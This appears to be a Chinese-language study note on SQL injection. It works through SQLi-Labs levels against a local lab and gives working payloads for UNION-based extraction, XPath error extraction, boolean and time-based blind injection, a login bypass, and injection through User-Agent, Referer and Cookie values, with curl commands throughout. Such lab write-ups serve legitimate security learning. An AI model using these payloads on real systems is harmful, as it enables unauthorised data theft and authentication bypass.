




---
tags:
  - 主题/网络安全
  - 技术/MySQL
  - 安全/SQL注入
  - 笔记/漏洞原理
---

> [!info] 知识关联
> - **前置知识**：[[MySQL学习笔记]] — 先理解 SELECT、UNION、条件表达式和表结构。
> - **复习归纳**：[[漏洞总结]] — 对照 SQL 注入的问答、测试思路与防御要点。
> - **修复关联**：[[java基础]] — 结合 JDBC 理解预编译和参数化查询。
> - **测试前置**：[[信息收集]] — 通过页面、参数与服务枚举寻找需要检查的输入点。

# 1 漏洞概述

## 1.1 什么是SQL注入

SQL注入，是程序把用户可控的内容直接拼接到SQL语句中，使原本应该作为**数据**处理的输入，变成了**SQL语法的一部分**。

先看一个最简单的例子，页面根据传入的id查询用户：

```php
$id = $_GET['id'];
$sql = "SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```

正常输入`1`，拼出来的语句是：

```sql
SELECT * FROM users WHERE id='1' LIMIT 0,1;
```

但如果输入的是`1' AND 1=2 -- -`，语句就变成：

```sql
SELECT * FROM users WHERE id='1' AND 1=2 -- -' LIMIT 0,1
```

这里第一个单引号结束了原本的字符串，`AND 1=2`成为新的查询条件，`-- -`把后面的原始内容注释掉。

**原本只能控制“查哪个id”，现在却能控制“查询条件怎么写”，问题就出在这里。**



原来记录的注入过程图：

![[Pasted image 20251130151741.png]]

> [!important] 漏洞的关键
> 能否注入，取决于输入最终如何进入SQL执行过程。
> 不是所有带数据库的接口都有注入，也不是输入一个单引号、页面出现异常，就能直接确定存在SQL注入。

## 1.2 漏洞危害

- **信息泄露**：读取业务数据、账号信息等。
- **认证逻辑被改变**：原本需要正确账号密码的查询，被改变为其他条件。
- **数据被修改或删除**：取决于注入语句、执行接口和数据库账号权限。
- **数据库可用性受影响**：昂贵查询、延时等可能占用资源。
- **影响进一步扩大**：在额外权限和配置条件成立时，可能影响文件或主机安全。

这里不能直接写成“有SQL注入就能控制服务器”。数据库账号权限、数据库功能、驱动接口和操作系统限制都会影响最终边界。

## 1.3 分类要按不同维度来看

原来把数字型、字符型与联合查询、盲注放在一起，容易混淆。它们描述的是不同的事情。

| 分类维度 | 常见类型 | 关注什么 |
| --- | --- | --- |
| 输入所在的SQL上下文 | 数字上下文、字符串上下文等 | 要不要闭合引号、括号 |
| 请求中的输入位置 | GET、POST、Cookie、User-Agent、Referer等 | 参数从哪里进入后端 |
| 观察或取数方式 | 联合查询、报错、布尔盲注、时间盲注 | 结果通过什么途径表现出来 |
| 触发时机 | 一阶注入、二阶注入 | 本次立即触发，还是存储后再次使用才触发 |
| 特殊条件或执行方式 | 宽字节、堆叠查询等 | 编码处理、接口能力等条件 |

比如“GET参数里的单引号字符串型布尔盲注”，这几个描述可以同时成立。

> [!note] 数字型不是指输入框只能填数字
> 判断的是后端SQL上下文。例如`WHERE id=$id`是数字表达式位置，`WHERE id='$id'`是字符串位置。
> 即使数据库中id列的类型是整数，只要SQL把输入包进了引号，测试时也必须考虑这个引号。

# 2 实验准备与前置知识

## 2.1 本文使用哪个靶场

下面以[Audi-1/sqli-labs原版仓库](https://github.com/Audi-1/sqli-labs)为参照，例子用于自己搭建的SQLi-Labs练习环境。

假设靶场入口为：

```text
http://127.0.0.1/sqli-labs/
```

如果实际使用虚拟机、其他端口或不同目录，需要把地址换成自己的。下面的`?id=...`都表示追加到对应关卡URL后的查询参数；只写payload时，则表示**参数解码后的值**。

原版项目较老，很多关卡使用`mysql_*`扩展，而这个扩展已经在PHP 7中移除。使用原版兼容的隔离环境或明确说明了修改内容的移植版，不能直接假设任意新版PHP都能运行。参见[PHP迁移说明](https://www.php.net/manual/en/migration70.removed-exts-sapis.php)。

搭好环境后，按[项目README](https://github.com/Audi-1/sqli-labs/blob/master/readme.txt)配置数据库连接，并通过首页的`Setup/reset Database`入口初始化。**这个入口会重建练习数据，已有实验修改可能被清除。**

> [!note] 示例结果与验证范围
> 下文的关卡行为根据原版源码分析，数据示例参考默认初始化内容，不代表已经在你的靶场里运行过。
> 移植版、MySQL/MariaDB版本、SQL模式、字符集和重置后的数据差异，都可能影响具体报错或结果。

## 2.2 先认识几条SQL

```sql
SELECT id, username FROM users WHERE id=1;
SELECT id, username FROM users ORDER BY id;
SELECT id, username FROM users ORDER BY id LIMIT 0,1;
SELECT id, username FROM users ORDER BY id LIMIT 1,1;
```

- `SELECT`选择返回哪些列。
- `FROM`指定从哪张表查询。
- `WHERE`指定条件。
- `ORDER BY`排序。
- `LIMIT 偏移量,数量`取指定范围，偏移量从0开始。

第三条取排序后的第一行，第四条取第二行。**如果没有明确排序，就不能依赖数据库总是按某个固定顺序返回。**

常用函数和系统信息：

| 写法 | 作用 |
| --- | --- |
| `database()` | 当前数据库名称 |
| `version()` | 数据库版本信息 |
| `user()` | 当前连接的用户信息，不等同于网站登录用户 |
| `length(str)` | 字节数 |
| `char_length(str)` | 字符数 |
| `substr(str,位置,长度)` | 截取字符串，位置从1开始 |
| `ascii(str)` | 取最左侧字符对应的数值，本文只用来判断ASCII字符 |
| `concat(a,b)` | 拼接字符串 |
| `group_concat(...)` | 将多行中的表达式合并为一个字符串 |
| `if(条件,真时结果,假时结果)` | 条件表达式 |
| `sleep(秒数)` | 延时，正常等待完成时返回0 |

MySQL的`information_schema`提供数据库对象的元数据：

```text
information_schema.tables
    table_schema：表所属的数据库
    table_name：表名

information_schema.columns
    table_schema：所属数据库
    table_name：所属表
    column_name：列名
    ordinal_position：列的位置
```

## 2.3 注释符和URL编码

MySQL常见注释形式：

```sql
-- 后面需要空白或控制字符
# 注释到行末
/* 块注释 */
```

本文多数参数值用`-- -`结尾，两个减号后有一个空格，最后的减号只是方便看清空格的位置。

在URL查询字符串里，常见处理方式是：

| 要传的内容 | URL中可以写成 | 注意 |
| --- | --- | --- |
| 空格 | `%20` | 更明确的写法 |
| 单引号`'` | `%27` | 必须使用英文半角引号 |
| 双引号`"` | `%22` | 与单引号含义不同 |
| `#` | `%23` | 直接写`#`通常是URL片段，不会发给服务端 |
| 字面量`+` | `%2B` | 避免被解码为空格 |

原文使用的`--+`，是在这类PHP查询参数解析中，`+`通常被解码为空格，让数据库看到`-- `。**它不是MySQL中独立的一种注释符。**

比如Less-1中，参数值是：

```text
1' AND 1=1 -- -
```

可以在浏览器中访问：

```text
http://127.0.0.1/sqli-labs/Less-1/?id=1%27%20AND%201=1%20--%20-
```

或者在Bash中让curl负责参数编码：

```bash
curl -G 'http://127.0.0.1/sqli-labs/Less-1/' \
  --data-urlencode "id=1' AND 1=1 -- -"
```

`--data-urlencode`接收的是原始值，不要先把它写成`%27`再交给这个选项，否则可能重复编码。Windows PowerShell中如需使用这些参数，可明确调用`curl.exe`，并根据Shell调整换行方式。

# 3 注入点判断与闭合

## 3.1 先看正常页面，再做对照

以Less-1为例，先访问`?id=1`，记下正常显示的用户名和密码，再比较下列输入。

| id的值 | 用途 | 原版环境中的预期现象 |
| --- | --- | --- |
| `1` | 正常基线 | 显示一条用户记录 |
| `1'` | 观察引号是否影响SQL | 可能出现SQL语法错误 |
| `1' AND 1=1 -- -` | 真条件 | 仍显示原记录 |
| `1' AND 1=2 -- -` | 假条件 | 不再显示原记录 |

重点是**可重复的真假对照**，而不是只看“有没有报错”。页面差异也可能来自参数校验、业务分支等，结合源码或更多独立证据判断更可靠。

原来记录的单引号测试：

![[Pasted image 20251217150642.png]]

原来记录的真条件测试：

![[Pasted image 20251217150859.png]]

## 3.2 Less-1到Less-4：闭合方式不同

下面的SQL结构是理解输入点用的简化表达，省略了部分后缀。

| 关卡 | 原SQL上下文 | 真条件测试时的id值 |
| --- | --- | --- |
| Less-1 | `WHERE id='$id'` | `1' AND 1=1 -- -` |
| Less-2 | `WHERE id=$id` | `1 AND 1=1 -- -` |
| Less-3 | `WHERE id=('$id')` | `1') AND 1=1 -- -` |
| Less-4 | `WHERE id=("$id")` | `1") AND 1=1 -- -` |

对应源码：[Less-1](https://github.com/Audi-1/sqli-labs/blob/master/Less-1/index.php)、[Less-2](https://github.com/Audi-1/sqli-labs/blob/master/Less-2/index.php)、[Less-3](https://github.com/Audi-1/sqli-labs/blob/master/Less-3/index.php)、[Less-4](https://github.com/Audi-1/sqli-labs/blob/master/Less-4/index.php)。

拿Less-3拆开看：

```sql
-- 原始结构
SELECT * FROM users WHERE id=('$id') LIMIT 0,1;

-- 输入：1') AND 1=1 -- -
SELECT * FROM users WHERE id=('1') AND 1=1 -- -') LIMIT 0,1
```

`'`负责闭合字符串，`)`负责闭合括号，然后才可以追加条件。如果只补引号、不补括号，前面的语法结构仍可能不完整。

Less-4则需要闭合双引号和括号；原版按允许双引号表示字符串的MySQL模式设计，如果启用了`ANSI_QUOTES`等不同SQL模式，表现会变化。

> [!tip] 判断闭合时在想什么
> 不是看到错误就无顺序地尝试符号，而是还原：输入前面有什么，输入后面有什么，需要先补齐哪些结构。
> 注释符可以处理尾部，但不会替我们修复注释之前已经缺失的引号或括号。

## 3.3 根据返回通道选择方法



这是一个练习思路，不是必须按固定顺序执行的规则。比如已经确认了清晰的布尔差异，就可以直接用它验证。

# 4 联合查询注入：Less-1

## 4.1 UNION的作用

`UNION`把两条查询的结果组合起来。要成立，参与联合的查询必须具有**相同的结果列数**，对应位置的类型还需要兼容或能转换。

```sql
SELECT 1, 'hello', 'Linux'
UNION ALL
SELECT 2, 'world', 'Java';
```

`UNION`默认会去除重复行，`UNION ALL`保留重复行。下面的练习使用`UNION ALL`。

注入时通常还需要知道，哪些结果列真正被页面展示出来，这些位置就是常说的**回显位**。

## 4.2 判断结果列数

在Less-1中，先分别测试：

```text
1' ORDER BY 3 -- -
1' ORDER BY 4 -- -
```

预期第一个正常，第二个提示排序位置超出范围，由此判断原查询结果有3列。

![[Pasted image 20251217151257.png]]

![[Pasted image 20251217151322.png]]

这里`ORDER BY 3`表示按结果中的第3列排序，**不是按名为3的列排序**。

> [!important] 查的是结果列数
> `ORDER BY`测到的是当前SELECT的结果列数。只有当原查询恰好使用`SELECT *`并对应这张表时，才可能与表的列数一致。
> 原文写成“判断表里有几列”不够准确。

## 4.3 判断回显位

参数值：

```text
-1' UNION ALL SELECT 1,2,3 -- -
```

拼接后近似为：

```sql
SELECT * FROM users WHERE id='-1'
UNION ALL SELECT 1,2,3 -- -' LIMIT 0,1
```

`-1`在默认练习数据中不存在，让原查询不产生记录。这样可以让页面取到联合部分的结果，避免被原查询的记录遮住。

Less-1中预期用户名位置显示`2`，密码位置显示`3`，所以后续表达式可以放在第2或第3列。

![[Pasted image 20251217151555.png]]

这里要分别确认三件事：**列数能对上、语句能执行、页面能显示目标列**。单纯加了UNION并不保证看得到结果。

## 4.4 获取当前数据库信息

```text
-1' UNION ALL SELECT 1,database(),version() -- -
```

预期用户名位置显示当前数据库名，密码位置显示数据库版本。原版默认数据库通常是`security`。

![[Pasted image 20251217151759.png]]

原笔记中的相关函数记录保留在这里：

![[Pasted image 20251217151444.png]]

## 4.5 查询表名

```text
-1' UNION ALL SELECT 1,2,GROUP_CONCAT(table_name ORDER BY table_name SEPARATOR ',') FROM information_schema.tables WHERE table_schema=database() -- -
```

拆开来看：

- `information_schema.tables`提供表的元数据。
- `table_schema=database()`只查看当前数据库。
- `GROUP_CONCAT(...)`把多个表名合并到一个结果值中。
- `ORDER BY table_name`让合并顺序明确，方便对照。

默认初始化中可以看到`users`、`emails`等练习表，具体以当前环境为准。

## 4.6 查询列名

```text
-1' UNION ALL SELECT 1,2,GROUP_CONCAT(column_name ORDER BY ordinal_position SEPARATOR ',') FROM information_schema.columns WHERE table_schema=database() AND table_name='users' -- -
```

注意这里是`information_schema.columns`，原笔记中的`conlumns`是拼写错误。

默认users表对应`id,username,password`。原版结构和初始数据可以对照[数据库初始化源码](https://github.com/Audi-1/sqli-labs/blob/master/sql-connections/setup-db.php)。

## 4.7 查询练习数据

不必一开始就把整张表拼在一起，先读取一条，便于看清每个值。

使用只返回一个值的标量子查询，明确取users表按id排序后的第一条记录，再把几个字段拼成一个结果值：

```text
-1' UNION ALL SELECT 1,2,(SELECT CONCAT_WS(':',id,username,password) FROM users ORDER BY id LIMIT 0,1) -- -
```

将`LIMIT 0,1`改为`LIMIT 1,1`，就读取下一条。默认数据的第一条记录应为`1:Dumb:Dumb`。

想合并多行时：

```text
-1' UNION ALL SELECT 1,2,GROUP_CONCAT(CONCAT_WS(':',id,username,password) ORDER BY id SEPARATOR ';') FROM users -- -
```

`:`分开一条记录中的字段，`;`分开不同记录，阅读起来比直接拼接三个值清楚。

> [!note] GROUP_CONCAT不是无限长
> 结果受`group_concat_max_len`等限制，页面显示也可能截断。合并结果不完整时，可以改成有明确排序的逐行查询。
> 字段为NULL时，`CONCAT`和`CONCAT_WS`的处理也有区别，不能只凭分隔符数量推断数据完整性。

原来整理的查询记录：

![[76ed2c03f5071e3e7f2464523b9ab6c3 1.png]]

## 4.8 这一关的完整思路


# 5 报错注入：Less-5

## 5.1 语法报错与报错取数的区别

前面输入一个`'`引发语法错误，是在观察输入有没有影响SQL。

**报错取数**则更进一步：让目标表达式的结果进入数据库错误信息，再由页面显示出来。

[Less-5源码](https://github.com/Audi-1/sqli-labs/blob/master/Less-5/index.php)中，有记录时只显示`You are in...........`，不会直接输出用户名和密码；没有记录或查询失败时，代码会输出`mysql_error()`。

所以，这一关虽然没有正常的数据回显位，但仍有错误信息通道。它也具有布尔差异，并不是只能使用报错方法。

## 5.2 以XPath错误为例

在**提供相关XML函数的数据库版本**中，可以利用错误的XPath表达式观察结果。

先在自己的数据库客户端理解正常语法：

```sql
SELECT EXTRACTVALUE('<a>hello</a>', '/a');
```

支持该函数的环境中会得到`hello`。如果把XPath参数改成不合法的表达式，数据库会报告XPath语法错误。函数行为可参考[MySQL XML函数文档](https://dev.mysql.com/doc/refman/9.7/en/xml-functions.html)，使用时必须对照实际安装版本。

Less-5中，id参数值可以测试：

```text
1' AND EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e)) -- -
```

拆开看：

- `DATABASE()`得到当前数据库名。
- `0x7e`表示字符`~`。
- `CONCAT(...)`得到类似`~security~`的字符串。
- 将它放到XPath位置，使错误信息携带这段内容。

典型预期现象是页面错误中出现类似：

```text
XPATH syntax error: '~security~'
```

如果支持`UPDATEXML`，也可以比较相同的思路：

```text
1' AND UPDATEXML(1,CONCAT(0x7e,DATABASE(),0x7e),1) -- -
```

> [!warning] 函数存在与否是前提
> 不同MySQL/MariaDB版本对XML函数的支持不完全一致，不能把一条表达式当成所有版本通用的方法。
> 如果报的是“函数不存在”，并不等于输入点没有注入；如果错误内容被截断，也不等于目标值就这么短。

## 5.3 读取一小段练习数据

确认函数和错误通道可用后，再把`DATABASE()`换成一个只返回单值的子查询：

```text
1' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT username FROM users ORDER BY id LIMIT 0,1),0x7e)) -- -
```

预期错误中可以看到第一条练习记录的用户名。子查询如果返回多行，会先产生“子查询返回多行”等其他错误，所以这里使用`LIMIT 0,1`。

需要分段观察时，可以对目标表达式使用`SUBSTR(目标,起点,长度)`，每次取较短片段。不要把某个环境中的报错长度上限直接当成所有版本的固定值。

## 5.4 原来那些“十种报错方法”怎么理解

| 方法 | 理解重点 | 限制 |
| --- | --- | --- |
| XPath类 | 非法XPath让错误携带表达式结果 | 函数支持、版本、报错显示长度 |
| `RAND`、`GROUP BY`等组合 | 某些执行条件下触发重复键错误 | 执行计划、数据量、版本都会影响 |
| 数值溢出类 | 运算超出范围，引发错误 | 报错未必包含想读取的数据 |
| 几何函数类 | 参数或格式错误引发异常 | 高度依赖具体实现和版本 |

这里先掌握“**让目标值进入可见错误**”这个共同点即可。仅仅触发一次异常，不代表已经建立了可稳定读取任意数据的通道。

# 6 布尔盲注：Less-8

## 6.1 什么是盲注

盲注不是没有执行SQL，而是**无法直接从页面看到目标查询结果**，只能通过间接现象推断。

[Less-8源码](https://github.com/Audi-1/sqli-labs/blob/master/Less-8/index.php)中，查到记录会显示`You are in...........`，查不到记录或出错时不显示这个标记，也不输出数据库错误。

于是可以把问题变成：**问数据库一个判断题，根据页面有没有标记，判断答案是真还是假。**

## 6.2 建立真假基线

Less-8中分别传入：

```text
1' AND 1=1 -- -
1' AND 1=2 -- -
```

预期前者有`You are in`标记，后者没有。可以各重复几次，确认差异稳定。

这里应观察的是**页面中的特定内容**，不一定是HTTP状态码。真假两种情况都可能返回`200 OK`。

如果希望保留响应对照，可在Bash中运行：

```bash
curl -sS -G 'http://127.0.0.1/sqli-labs/Less-8/' \
  --data-urlencode "id=1' AND 1=1 -- -" -o true.html

curl -sS -G 'http://127.0.0.1/sqli-labs/Less-8/' \
  --data-urlencode "id=1' AND 1=2 -- -" -o false.html

grep -F 'You are in' true.html
grep -F 'You are in' false.html
```

预期只在`true.html`中找到这个标记。动态页面不能只凭响应总长度做结论，尽量选稳定的业务标记。

## 6.3 判断数据库名长度

先问“当前数据库名长度是否大于5”：

```text
1' AND LENGTH(DATABASE())>5 -- -
```

再问是否等于8：

```text
1' AND LENGTH(DATABASE())=8 -- -
```

默认数据库名`security`由8个ASCII字符组成，所以这两个条件预期都为真。

实际测试中不能先假定答案是8，可以从较小范围逐步试探；范围较大时，使用二分法缩小区间。

> [!note] 字节与字符
> `LENGTH`统计字节，`CHAR_LENGTH`统计字符。`security`都是ASCII字符，二者相同；目标包含中文等多字节字符时，不能继续把二者混用。

## 6.4 判断第一个字符

```text
1' AND ASCII(SUBSTR(DATABASE(),1,1))>109 -- -
```

先截取数据库名第1个字符，再取ASCII值，判断是否大于109。

默认`security`的第1个字符是`s`，ASCII值为115，所以条件为真。

进一步缩小范围，例如：

```text
1' AND ASCII(SUBSTR(DATABASE(),1,1))>115 -- -
1' AND ASCII(SUBSTR(DATABASE(),1,1))=115 -- -
```

预期前者为假，后者为真。就这样确认第一个字符是`s`。把位置`1`改为`2`，继续判断第二个字符。



这里知道长度，是为了明确什么时候停止；否则截取越界返回空串后，还可能把“没有字符”误认为某个编码值。

## 6.5 换成表名或列名

一旦理解了如何判断`DATABASE()`，其他目标只是换一个表达式。

例如取当前数据库按表名排序后的第一个表名：

```sql
SELECT table_name
FROM information_schema.tables
WHERE table_schema=database()
ORDER BY table_name
LIMIT 0,1;
```

对应判断第一个字符的参数值：

```text
1' AND ASCII(SUBSTR((SELECT table_name FROM information_schema.tables WHERE table_schema=database() ORDER BY table_name LIMIT 0,1),1,1))>109 -- -
```

如果还不知道有几张表，可以先把判断目标换成：

```sql
SELECT COUNT(*)
FROM information_schema.tables
WHERE table_schema=database();
```

**判断数量或长度 → 定位一条记录 → 逐字符判断 → 移到下一条**，思路与读取数据库名相同。

# 7 时间盲注：Less-9

## 7.1 页面不变时观察什么

[Less-9源码](https://github.com/Audi-1/sqli-labs/blob/master/Less-9/index.php)中，成功和失败分支都会输出`You are in...........`。这个标记已经无法区分条件真假。

这时可以构造：条件为真就等待一段时间，为假则立即返回。通过响应时间差异判断条件。

## 7.2 先验证延时通道

先各请求几次普通的`id=1`，了解正常响应耗时，再对照：

```text
1' AND IF(1=1,SLEEP(2),0) -- -
1' AND IF(1=2,SLEEP(2),0) -- -
```

预期第一个比正常基线慢约2秒，第二个接近基线。具体耗时还包含网络、PHP和数据库执行时间，不能要求精确等于2秒。

用Bash中的curl观察总耗时：

```bash
curl -sS -G 'http://127.0.0.1/sqli-labs/Less-9/' \
  --data-urlencode "id=1' AND IF(1=1,SLEEP(2),0) -- -" \
  -o /dev/null -w 'total=%{time_total}s\n'

curl -sS -G 'http://127.0.0.1/sqli-labs/Less-9/' \
  --data-urlencode "id=1' AND IF(1=2,SLEEP(2),0) -- -" \
  -o /dev/null -w 'total=%{time_total}s\n'
```

`/dev/null`写法适用于这里的Linux/Bash示例。Windows原生命令行需要按自己的环境调整输出丢弃位置。

`SLEEP(2)`正常返回0，会影响SQL条件真假，但本例观察的是它**是否被执行、是否引起延时**，不是最终有没有查到记录。

## 7.3 根据条件控制延时

```text
1' AND IF(LENGTH(DATABASE())=8,SLEEP(2),0) -- -
1' AND IF(ASCII(SUBSTR(DATABASE(),1,1))=115,SLEEP(2),0) -- -
```

默认环境中，这两个条件都预期触发延时。后续逐字符判断与布尔盲注一样，只是把“页面有无标记”换成“有无稳定延时”。

> [!important] 一次变慢不够证明时间盲注
> 至少对照普通请求、恒真延时、恒假不延时，并重复测量；存在连接重用差异时，可以先预热连接或增加样本。
> 使用同一个参数、同一条记录，避免额外复杂查询引入干扰。查询结构和执行计划可能让延时执行多次，也可能让某个表达式没有被求值。

练习时顺序发送少量请求即可，没必要使用长延时或并发来放大现象。

# 8 POST登录注入：Less-11

## 8.1 输入位置变了，原理没变

前面的输入位于URL的GET参数中，Less-11则来自登录表单。

[Less-11源码](https://github.com/Audi-1/sqli-labs/blob/master/Less-11/index.php)中的参数名是`uname`、`passwd`，查询返回`username,password`两列，再按输入的用户名和密码筛选。

简化后的原始结构：

```sql
SELECT username, password
FROM users
WHERE username='$uname' AND password='$passwd'
LIMIT 0,1;
```

不是“POST更安全”，而是请求中的数据最终有没有安全地进入数据库。

## 8.2 在页面中怎么操作

1. 打开`http://127.0.0.1/sqli-labs/Less-11/`。
2. 先在Username输入`admin`，Password输入一个错误密码，提交，记录失败页面。
3. 再将Username改为`admin' -- -`，Password仍填任意非空内容，例如`test`。
4. 提交后，观察是否显示admin的练习记录及成功图片。

默认数据中存在admin账号。输入改变后，SQL近似为：

```sql
SELECT username, password FROM users
WHERE username='admin' -- -' AND password='test' LIMIT 0,1
```

后面的密码条件被注释掉，所以原本应该验证密码的查询逻辑发生了变化。

这里叫“绕过了这一关的密码查询条件”更准确，不代表所有真实系统都会因此建立完整登录会话。

## 8.3 用Burp Repeater看请求

如果要观察请求而不是只在页面里输入：

1. 打开Burp Suite，在`Proxy`中使用其内置浏览器访问本地靶场。
2. 在Less-11表单随便输入一组测试值，点击提交。
3. 在`Proxy → HTTP history`找到发往`/sqli-labs/Less-11/`的POST请求。
4. 右键发送到`Repeater`，保持方法、路径和内容类型，在请求体中修改`uname`。
5. 点击`Send`，在右侧响应中比较错误密码基线与注入请求的正文。

界面名称可能随版本略有变化；关键是找到这条POST请求并重放。请求体可写为：

```text
uname=admin%27%20--%20-&passwd=test&submit=Submit
```

浏览器表单中输入的是原始字符；在URL编码的请求体里，才需要关注百分号编码。修改请求体后让工具自动更新`Content-Length`，避免长度错误影响请求。

也可以在Bash中重放，curl会计算长度和编码：

```bash
curl 'http://127.0.0.1/sqli-labs/Less-11/' \
  --data-urlencode "uname=admin' -- -" \
  --data-urlencode 'passwd=test' \
  --data-urlencode 'submit=Submit'
```

## 8.4 POST里也可以做联合查询

Less-11返回两列，因此测试UNION时需要两列，不能机械地搬用Less-1的三列写法。

Username中输入：

```text
-not-a-user-' UNION ALL SELECT DATABASE(),VERSION() -- -
```

Password填`test`。默认不存在这个用户名，原查询不返回记录，联合部分则生成两列测试信息。

预期原来显示用户名和密码的两个位置，分别出现数据库名和版本信息。

# 9 其他输入位置与进阶认识

## 9.1 请求头注入：Less-18、Less-19

SQL注入不只发生在表单里。网站可能把User-Agent、Referer等请求头写入数据库，如果写入时继续直接拼接SQL，也可能产生注入。

| 关卡 | 输入来源 | 进入的语句位置 |
| --- | --- | --- |
| Less-18 | `User-Agent` | 登录成功后，写入uagents表的INSERT语句 |
| Less-19 | `Referer` | 登录成功后，写入referers表的INSERT语句 |

对应源码：[Less-18](https://github.com/Audi-1/sqli-labs/blob/master/Less-18/index.php)、[Less-19](https://github.com/Audi-1/sqli-labs/blob/master/Less-19/index.php)。

**这一组有一个前提：先用正确的练习账号密码通过登录查询，后面才会执行记录请求头的INSERT。** 单纯不断改登录框，可能根本没到真正的输入点。

以Less-18为例，使用默认练习账号`Dumb / Dumb`，先发送正常User-Agent，再追加一个英文单引号比较：

```bash
curl 'http://127.0.0.1/sqli-labs/Less-18/' \
  -A 'study-agent' \
  --data-urlencode 'uname=Dumb' \
  --data-urlencode 'passwd=Dumb'

curl 'http://127.0.0.1/sqli-labs/Less-18/' \
  -A "study-agent'" \
  --data-urlencode 'uname=Dumb' \
  --data-urlencode 'passwd=Dumb'
```

`-A`设置User-Agent。原版环境中，第二个请求预期触发INSERT语法错误；注意页面也会显示传入的User-Agent，**仅仅看到输入被打印出来不是SQL注入证据**，要区分普通回显与数据库错误。

在Burp Repeater中操作时，则保持登录请求体不变，只修改`User-Agent`请求头，再对照响应。Less-19同理，只是改成`Referer`，curl中可以用`-e "study-referer'"`设置。

这类INSERT场景不应直接套用`UNION SELECT`。先把字段列表、VALUES中的值和括号关系还原出来，再考虑适合这个表达式位置的验证方法。

## 9.2 Cookie注入：Less-20

[Less-20源码](https://github.com/Audi-1/sqli-labs/blob/master/Less-20/index.php)在存在`uname` Cookie且没有走删除Cookie表单分支时，会用该值查询用户。

简化结构：

```sql
SELECT * FROM users WHERE username='$cookee' LIMIT 0,1;
```

可以先正常登录，通过响应中的`Set-Cookie`或浏览器开发者工具查看`uname`。随后把读取页面的GET请求送到Repeater，修改Cookie中的值。

如果只想验证这一分支，也可以直接用curl明确发送Cookie：

```bash
curl 'http://127.0.0.1/sqli-labs/Less-20/' --cookie 'uname=Dumb'

curl 'http://127.0.0.1/sqli-labs/Less-20/' \
  --cookie 'uname=-not-a-user-%27%20UNION%20ALL%20SELECT%201%2CDATABASE()%2CVERSION()%20%23'
```

第二条Cookie中发送的是已编码的值，原版PHP读取普通Cookie值时会解码，参数含义是：

```text
-not-a-user-' UNION ALL SELECT 1,DATABASE(),VERSION() #
```

预期用户名和密码位置分别显示当前数据库名与版本。

这里用`#`处理尾部，Cookie中实际发送`%23`。这与前面`--data-urlencode`自动编码的用法不同，不能把不同请求位置的编码步骤混在一起。

> [!note] 不要误把Cookie当作可信数据
> Cookie由客户端保存并发送，可以被修改。即使某个Cookie最初是服务端设置的，也不能因此直接拿它拼接SQL。

## 9.3 二阶注入：Less-24

二阶注入的特点是：**输入先被当作数据保存，之后又被取出来拼接到另一条SQL中，才触发问题。**



